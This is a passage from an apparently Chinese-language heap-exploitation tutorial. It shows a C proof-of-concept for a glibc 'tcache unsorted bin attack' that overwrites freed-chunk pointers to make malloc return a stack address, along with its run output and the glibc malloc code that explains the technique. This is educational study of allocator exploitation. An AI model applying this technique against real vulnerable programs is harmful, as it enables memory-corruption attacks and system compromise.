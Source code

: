 ```c
    fprintf(stderr, "Freed the first chunk to put it in a tcache bin\n");

    p[0] = (unsigned long)(&stack_var);
    fprintf(stderr, "Overwrite the next ptr with the target address\n");
    malloc(0x80);
    malloc(0x80);
    fprintf(stderr, "Now we malloc twice to make tcache struct's counts '0xff'\n\n");

    free(p);
    fprintf(stderr, "Now free again to put it in unsorted bin\n");
    p[1] = (unsigned long)(&stack_var - 2);
    fprintf(stderr, "Now write its bk ptr with the target address-0x10: %p\n\n", (void*)p[1]);

    malloc(0x80);
    fprintf(stderr, "Finally malloc again to get the chunk at target address: %p -> %p\n", &stack_var, (void*)stack_var);
}
```

```text
$ gcc -g tcache_unsorted_bin_attack.c
$ ./a.out
The target we want to rewrite on stack: 0x7ffef0884c10 -> 0

Now, we allocate first small chunk on the heap at: 0x564866907260
Freed the first chunk to put it in a tcache bin
Overwrite the next ptr with the target address
Now we malloc twice to make tcache struct's counts '0xff'

Now free again to put it in unsorted bin
Now write its bk ptr with the target address-0x10: 0x7ffef0884c00

Finally malloc again to get the chunk at target address: 0x7ffef0884c10 -> 0x7f69ba1d8ca0
```

我们知道由于 tcache 的存在，malloc 从 unsorted bin 取 chunk 的时候，如果对应的 tcache bin 还未装满，则会将 unsorted bin 里的 chunk 全部放进对应的 tcache bin，然后再从 tcache bin 中取出。那么问题就来了，在放进 tcache bin 的这个过程中，malloc 会以为我们的 target address 也是一个 chunk，然而这个 "chunk" 是过不了检查的，将抛出 "memory corruption" 的错误：

```c
      while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
        {
          bck = victim->bk;
          if (__builtin_expect (chunksize_nomask (victim) <= 2 * SIZE_SZ, 0)
              || __builtin_expect (chunksize_nomask (victim)
				   > av->system_mem, 0))
            malloc_printerr ("malloc(): memory corruption");
```

那么要想跳过放 chunk 的这个过程，就需要对应 tcache bin 的 counts 域不小于 tcache_count（默认为7），但如果 counts 不为 0，说明 tcache bin 里是有 chunk 的，那么 malloc 的时候会直接从 tcache bin 里取出，于是就没有 unsorted bin 什么事了：

```c
  if (tc_idx < mp_.tcache_bins
      /*&& tc_idx < TCACHE_MAX_BINS*/ /* to appease gcc */
      && tcache
      && tcache->entries[tc_idx] != NULL)
    {
      return tcache_get (tc_idx);
    }
```
